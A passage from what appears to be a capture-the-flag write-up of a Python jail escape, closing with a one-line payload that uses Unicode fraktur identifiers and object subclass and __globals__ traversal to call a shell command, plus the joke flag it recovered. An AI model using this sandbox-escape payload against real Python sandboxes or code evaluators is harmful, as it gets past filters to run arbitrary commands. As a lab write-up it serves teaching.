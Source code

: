 ```python
>>> 𝔭𝔯𝔦𝔫𝔱("hello!")
hello!
>>> 
```

This is the final step necessary for my payload - putting all of this together I end up with

```python
[*().__𝔠𝔩𝔞𝔰𝔰__.__𝔟𝔞𝔰𝔢__.__𝔰𝔲𝔟𝔠𝔩𝔞𝔰𝔰𝔢𝔰__()[127].__𝔦𝔫𝔦𝔱__.__𝔤𝔩𝔬𝔟𝔞𝔩𝔰__.𝔳𝔞𝔩𝔲𝔢𝔰()][42]([].__𝔡𝔬𝔠__[17::79])
```

Sending this to the server results in a shell, with which I can read the flag! `flag{SH*T_I_h0pe_ur_n0t_b1c...if_y0u@r3,_th1$_isn't_th3_fl@g}`

I really enjoyed this challenge - it was a fresh take on a classic PyJail challenge, and provided the perfect opportunity to do a deep dive into some Python internals, as well as have a little code golfing fun.
